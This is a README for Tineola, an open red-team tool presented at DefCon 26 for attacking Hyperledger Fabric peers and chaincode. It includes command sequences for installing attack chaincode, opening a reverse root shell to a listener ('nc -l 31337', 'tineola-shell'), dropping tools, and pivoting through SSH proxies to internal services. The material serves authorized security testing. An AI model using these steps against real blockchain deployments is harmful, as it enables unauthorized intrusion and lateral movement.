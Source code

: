 # Introducing Tineola
Tineola is a red team tool for interfacing with **Hyperledger Fabric** deployments, networks, and chaincodes.
Tineola is designed to work in as many configurations as possible, and require only the bare minimum configuration to get started.
Tineola also ships with *tineolacc*, special chaincode for performing evil peer attacks.

This tool was originally released on Aug 12, 2018 at DefCon 26 by [Stark Riedesel](https://github.com/starkriedesel), [Parsia Hakimian](https://parsiya.net), Travis Biehn, and Koen Buyens.

The Tineola Whitepaper accompaning the release of the tool can be found on [Github](https://github.com/tineola/tineola/raw/master/docs/TineolaWhitepaper.pdf).

# Installing Tineola
Tineola requires NodeJS 8.x or newer.
1. git clone https://github.com/tineola/tineola
2. cd tineola; npm install
3. cd bin; ./tineola.js

Tineola will load a .tineola-rc file from the current directory (if it exists) upon loading and execute any commands found within.

# Getting Started
Tineola is an interactive commandline application with commands split into modules. The following is a list of common actions and the associated Tineola commands. A complete list of commands can be obtained by using the `help` command. Command syntax can be displayed with the `-help` flag.

#### Authenticating to a CA server for the first time (aka Enrollment)

```
tineola> ca-set https://ca.example.com:7050

tineola> user-set admin

tineola> ca-enroll adminpw ExampleOrgMSP
```
After these commands, the admin user has been enrolled into tineola's keystore. Subsequent use of Tineola with the same CA server and user will not need re-enrollment. Simply using the `user-set admin` is sufficient for loading local user keys.

#### Connecting to a peer and listing existing channels

```
tineola> user-set admin

tineola> peer-set grpcs://peer1.example.com:7051

tineola> peer-list-channels
```

#### Connecting to a channel and show last 20 blocks

```
tineola> user-set admin

tineola> per-set grpcs://peer1.example.com:7051

tineola> channel-set testChan

tineola> channel-history --last 20
```

#### Query/Invoke existing chaincode

Querying refers to calling a chaincode function and reciving a response, but without ordering the transaction. The result is a "Read-only" chaincode call.
Invoking refers to calling a chaincode function and ordering the response which allows it to be read & write.
Both actions use the "channel-query-cc" tineola command with or without the "--invoke" flag.
Invocation requires an orderer to be set.
Note: invoking requires the endorsment policy to be met, where as querying does not.

```
tineola> user-set admin

tineola> peer-set grpcs://peer1.example.com:7051

tineola> channel-set testChan

tineola> channel-query-cc ccName ccFuncName

tineola> orderer-set grpcs://orderer1.example.com:7050

tineola> channel-query-cc --invoke ccName ccFuncName
```

#### Installing the tineola chaincode

Most commands in the "tineola" module require the "tineolacc" chaincode to be installed to the peer.
Note that this action requires a **peer administrator** certificate to be accomplished and be acceptable to the channel endorsement policy.

```
tineola> user-set peerAdmin

tineola> channel-set testChan

tineola> tineola-install
```

#### Reverse shell from the tineola chaincode

Start a tcp listener on the tineola machine (10.0.0.5 in this example)
```
nc -l 31337
```

Use tineola to launch the chaincode
```
tineola> user-set admin

tineola> channel-set testChan

tineola> tineola-shell 10.0.0.5:31337
```

The tcp listener should be given a root shell within the chaincode container.
This container is a bare ubuntu image.
Use `apt update` and `apt install ...` to download packages if the peer is internet connected.
If the peer is not internet connected, the `tineola-http-drop` command can be used to drop useful binaries like nmap.

#### Creating a reverse proxy with the tineola chaincode

It may be useful to pivot through the chaincode container to access hidden network services such as CouchDB containers or other peers.
The following assumes the tineola machine is at 10.0.0.5, has ssh installed and running.
The Tineola chaincode uses private key authentication to connect over ssh back to the tineola machine.
An allowed ssh private key should be present at ~/tineola-ssh-key for tineola to use.
Note: make sure to disallow this key after using Tineola.
Tineola makes no effort to encrypt or otherwise hide this key durring or after use by the chaincode.
This key will likely be present on the chaincode container indefinitely.
Keys can be generated ising `ssh-keygen` and installed to ~/.ssh/authorized keys.
The username below "user" should be changed to match the username of the tineola machine.
The target should be in the form IP:PORT and is 10.10.0.100:1234 in the example below.

```
tineola> user-set admin

tineola> user-set channel-set testChan

tineola> peer-set grpcs://peer1.example.com:7051

tineola> tineola-ssh-proxy 10.10.0.100:1234 10.0.0.5 user ~/tineola-ssh-key
```

#### Using Tineola with Burp or another HTTP-base application proxy/scanner

It may be useful to connect Tineola to a application scanner or proxy for ease of use when testing chaincode.
Further, many Fabric deployments will use chain data in web applications upstream, making web application scanners great for detecting web vulnerability orginating from chaincode.

```
tineola> user-set admin

tineola> peer-set grpcs://peer1.example.com:7051

tineola> channel-set testChans

tineola> orderer-set grpcs://orderer1.example:7050

tineola> tineola-http-proxy
```

Next, configure the HTTP scanner to use the port opened locally (defaukt: localhost:8888).
The format of HTTP requests should be:
```
POST /ccName/funcName HTTP/1.1
HLF-Invoke: yes

["arguments","as", "json"]
```

The HLF-Invoke header controls whether or not to send the request for ordering.
Then HLF-Invoke is set to "no" the query will be made read only but responses can still be collected from the chaincode.
The orderer is not needed to be configured if invoking is disabled.

# License
This software is released by Synopsys under the MIT license. 
